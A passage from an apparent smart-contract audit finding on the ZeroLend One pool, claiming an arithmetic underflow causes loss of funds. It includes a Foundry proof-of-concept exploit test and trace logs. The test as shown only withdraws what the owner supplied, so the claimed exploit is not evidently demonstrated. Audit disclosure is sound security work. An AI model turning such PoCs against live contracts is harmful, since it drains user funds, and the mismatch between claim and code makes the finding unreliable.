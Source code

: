 - 5. Arithmetic Underflow
- An arithmetic underflow occurs when trying to deduct the calculated shares from the user's supply of shares. The transaction reverts, but the tokens have already been transferred to the attacker, resulting in a loss of funds for the protocol.

### POC 
- Add the test function to [PoolWithdrawTests.t.sol](https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/test/forge/core/pool/PoolWithdrawTests.t.sol) 

```solidity
function testExploitRoundingIssues() external {
    uint256 supplyAmount = 100 ether;
    uint256 mintAmount = 150 ether;
    uint256 withdrawAmount = 150 ether;
    uint256 index = 1;

    // Setup 
    vm.startPrank(owner);
    tokenA.mint(owner, mintAmount);
    tokenA.approve(address(pool), type(uint256).max); 

    // Supplies to the pool
    pool.supplySimple(address(tokenA), owner, supplyAmount, index);

    // Checking balances and supply shares
    assertEq(tokenA.balanceOf(address(pool)), supplyAmount, 'Pool Balance Supply');
    assertEq(tokenA.balanceOf(owner), mintAmount - supplyAmount, 'Owner Balance Supply');
    assertEq(pool.getTotalSupplyRaw(address(tokenA)).supplyShares, supplyAmount);
    assertEq(pool.getBalanceRaw(address(tokenA), owner, index).supplyShares, supplyAmount);

    // Second supply
    uint256 exploitAmount = supplyAmount / 2; 
    pool.supplySimple(address(tokenA), owner, exploitAmount, index);

    // Withdrawal
    pool.withdrawSimple(address(tokenA), owner, withdrawAmount, index);

    // Withdrawal
    uint256 poolBalanceAfterWithdraw = tokenA.balanceOf(address(pool));
    uint256 ownerBalanceAfterWithdraw = tokenA.balanceOf(owner);

    // Log  
    emit log_named_uint("Owner Balance After Withdraw", ownerBalanceAfterWithdraw);
    emit log_named_uint("Pool Balance After Withdraw", poolBalanceAfterWithdraw);

    // Assertions  
    assertEq(poolBalanceAfterWithdraw, supplyAmount - withdrawAmount + exploitAmount, 'Pool Balance After Exploit');
    assertEq(ownerBalanceAfterWithdraw, mintAmount - supplyAmount - exploitAmount + withdrawAmount, 'Owner Balance After Withdraw and Exploit');
    assertEq(pool.getTotalSupplyRaw(address(tokenA)).supplyShares, supplyAmount - withdrawAmount + exploitAmount);
    assertEq(pool.getBalanceRaw(address(tokenA), owner, index).supplyShares, supplyAmount - withdrawAmount + exploitAmount);

    // End prank
    vm.stopPrank();
}
```
- Trace logs
```text
Logs:
  Owner Balance After Withdraw: 150000000000000000000
  Pool Balance After Withdraw: 0
```